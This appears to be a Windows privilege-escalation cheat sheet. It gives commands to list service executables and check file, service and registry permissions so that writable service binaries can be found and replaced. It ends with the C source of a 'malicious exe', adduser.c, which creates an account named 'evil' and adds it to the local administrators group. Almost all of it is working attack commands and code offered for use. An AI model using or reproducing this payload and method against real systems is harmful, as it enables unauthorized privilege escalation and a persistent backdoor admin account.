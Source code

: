 ### Permission for service exe file
```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```
### wmic
```
for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\service_exes.txt

echo "" > c:\windows\temp\exe_permissions.txt
for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\service_exes.txt) do cmd.exe /c icacls "%a" >> c:\windows\temp\exe_permissions.txt
```
### sc
#### Service Details
```
sc qc \<Service Name>
```

#### Service Permissions
```
accesschk.exe -ucqv \<Service Name>  
```
#### Output Service Info
```
sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
FOR /F %i in (Servicenames.txt) DO echo %i  

FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```
## File Permissions
*Check permissions on file (Look for W or F tag) and substitute if possible*
```
icacls scsiaccess.exe
```
## Registry Key permissions
```
subinacl /keyreg HKEY_LOCAL_MACHINE/software/microsoft
```

## Exe to add user to server
Write and compile malicious exe file to add a user to the system as an admin

### Contents of adduser.c
```
#include <stdlib.h>

int main ()
{

	int i;

	i = system ("net user evil Ev!lpass /add");
	i = system ("net localgroup administrators evil /add");

		return 0;
}
```
